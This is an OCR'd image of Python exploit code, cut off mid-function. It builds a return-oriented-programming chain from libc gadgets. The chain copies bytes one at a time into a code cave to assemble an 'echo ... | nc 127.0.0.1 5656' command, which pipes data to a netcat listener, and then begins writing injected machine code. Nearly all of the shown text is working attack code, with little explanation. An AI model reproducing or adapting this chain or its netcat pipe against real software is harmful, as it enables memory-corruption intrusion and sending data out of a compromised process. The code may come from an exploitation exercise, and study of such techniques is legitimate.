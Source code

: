 ```python
poprsi  = struct.pack("<Q", libc_base + 0x2477e)
poprdx  = struct.pack("<Q", libc_base + 0x821d6)
syscall = struct.pack("<Q", libc_base + 0x82869)

def bncpy(dest, src, n):
    s =  poprdi + struct.pack("<Q", dest)
    s += poprsi + struct.pack("<Q", src)
    for i in range(n):
        # 0x00000000000a5980: movsb byte ptr [rdi], byte ptr [rsi]; ret;
        s += struct.pack("<Q", libc_base + 0xa5980)
    return s

# write template attack string to 0x401400
def writeEcho():
    dest = 0x401400
    s = bncpy(dest, 0x7ffff7de49cc, 1)   # e
    dest += 1
    s += bncpy(dest, 0x7ffff7df73ea, 3)  # cho
    dest += 3
    s += bncpy(dest, 0x7ffff7f72870, 16) # 16 * " "
    dest += 16
    s += bncpy(dest, 0x7ffff7f72870, 16) # 16 * " "
    dest += 16
    s += bncpy(dest, 0x7ffff7de451a, 1)  # "|"
    dest += 1
    s += bncpy(dest, 0x7ffff7de6c3c, 2)  # "nc"
    dest += 2
    s += bncpy(dest, 0x7ffff7f72870, 1)  # " "
    dest += 1
    s += bncpy(dest, 0x7ffff7df66f6, 2)  # "12"
    dest += 2
    s += bncpy(dest, 0x7ffff7e1ff85, 2)  # "7."
    dest += 2
    s += bncpy(dest, 0x7ffff7f6d48a, 4)  # "0.0."
    dest += 4
    s += bncpy(dest, 0x7ffff7ec5b6b, 2)  # "1 "
    dest += 2
    s += bncpy(dest, 0x7ffff7e63287, 2)  # "56"
    dest += 2
    s += bncpy(dest, 0x7ffff7e63287, 2)  # "56"
    return s


# write code to start of code cave
def writeCode():
    dest = 0x401300
    #                     bf 80 13 40 00         mov    edi,0x401380
    s = bncpy(dest, 0x7ffff7e65228, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7de47a1, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7de4008, 1)
    dest += 1
    #                                            nop; nop
    s += bncpy(dest, 0x7ffff7e6147a, 2)
    dest += 2
    #                     be 00 14 40 00         mov    esi,0x401400
    s += bncpy(dest, 0x7ffff7e29ead, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7de476e, 3)
    dest += 3
    #                     b1 37                  mov    cl,0x37
    s += bncpy(dest, 0x7ffff7e29e1b, 1)
```